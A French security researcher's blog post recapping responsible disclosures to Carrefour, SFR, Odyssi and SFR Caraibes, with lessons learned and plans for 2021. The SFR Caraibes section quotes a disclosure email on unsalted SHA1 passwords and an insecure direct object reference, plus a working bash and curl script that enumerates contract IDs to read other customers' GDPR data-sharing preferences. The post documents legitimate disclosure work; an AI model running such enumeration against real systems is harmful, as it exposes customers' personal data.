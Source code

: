 ```yaml
---
layout: post
title: Securité, retours sur de la divulgation responsable
excerpt_separator:  <!--more-->
categories:
  - security
tags:
  - divulgation responsable
---
```

## TLDR;

Retour sur les divulgations responsables réalisées ([security log](/security-log)) et projets pour 2021.

![Burning steamer, Marcus Larson](/images/larson-burning-steamer.jpg)

<!--more-->

## Divulgations

### Carrefour

- Possibilité d'utiliser la cagnotte d'une autre personne et ticket de caisse contenant trop d'information personnelles
- [Rapport envoyé à Carrefour](/doc/secu/2019-09-19-app-carrefour-martinique.pdf)
- Expérience : seul un email au DPO semble avoir fait accélérer le process.

### SFR

- Plusieurs failles dans la version de la box.
- [Rapport envoyé à SFR](/doc/secu/2020-06-08-box-sfr.pdf)
- Experience : process très très long pour une résolution partielle. Création de PoCs qui n'ont jamais été discutées avec SFR.

### Odyssi

- Possibilité de récupérer les positions GPS des alertes à partir d'un email
- [Rapport envoyé à Odyssi](/doc/secu/2020-06-25-odyssi.pdf)
- Experience : correction très rapide (J+1).

### SFR Caraibes

- Présence du mot de passe SHA1 non salé dans la page et possiiblité d'accéder aux préférences RGPD des comptes.
- Email envoyé à SFR Caraibes

```
1. Les mots de passes de connexion à l'espace client sont stockés en SHA1, sans sel.
En se logguant puis en se rendant sur https://espaceclient.sfrcaraibe.fr/compte/r-moncomptePrincipal.php, on voit que le champs mot de passe est remplie, par la valeur hashée (SHA1) du mot de passe de connexion.
La connexion est sécurisée, donc l'impact est faible. Mais en cas d'attaque de la DB de connexion, les mots de passes seront retrouvés de façon triviale.

2. Accès aux préférences de gestion des données personnelles. La page https://espaceclient.sfrcaraibe.fr/rgpd/r-donneespersonnelles.php, est obtenue avec un ID (l'ID contrat). En passant un autre ID que le sien (tout en étant logué), il semble possible de récupérer les choix réalisés.
Dans le pire des cas, il serait alors possible également de les modifier, ce qui bien sur pose problème puisque ces préférences sont ensuite utilisées pour partager de l'information avec des tiers.
```

Le point 1. est validé mais SFR ne croit pas au point 2.

L'envoi du script ci-dessous permet de mettre en évidence le problème.
```
#!/bin/sh

PHPSESSID="xxx" # utiliser un cookie obtenu en se logguant sur https://espaceclient.sfrcaraibe.fr/

# On peut passer le cookie en paramètre
if [ $# -gt 0 ]; then
  PHPSESSID=$1;
fi

# K61237 => contrat de Guillem Lefait => refuse tout
# ..
# K61270 => contrat de ??             => refuse tout
# ..
# K61313 => contrat de ??             => refuse tout
# ..
# K61338 => contrat de ??             => refuse groupe + enquete
# ..
# K61616 => contrat de ??             => refuse tout

for i in {61235..61300}; do
	echo "$i ----------";
	curl 'https://espaceclient.sfrcaraibe.fr/rgpd/r-donneespersonnelles.php' \
        -H 'Content-Type: application/x-www-form-urlencoded' \
		-H "Cookie: PHPSESSID=${PHPSESSID}" \
		--data-raw "contrat=K$i" \
		--silent |
        grep -P '<input [^>]*type="radio"[^>]* checked="true">' | # on peut faire la même chose
        sed -r 's#^.*name="([^"]+)".*value="([^"]+).*$#\1\t\2#';          # avec les préférences de contact
done
```

- Expérience : traitement assez rapide (5 jours). J'aurais du faire un script immédiatement pour montrer le point 2. Le fait que les mots de passes soient stockés en SHA1 non salés n'a pas été adressé.

### Orange
- par email, en attente


## Projets 2021

1. Systématiser les rapports (pas uniquement des emails) pour garder une trame complète.

2. Mesurer le temps passé par projet.

3. Préparer une PoC minimale et vérifier si le sujet est hors-scope.

4. Faire du bug bounty pour tenter de percevoir en 2021, un gain financier supérieur à 2020. Soit toute somme supérieure à 0.

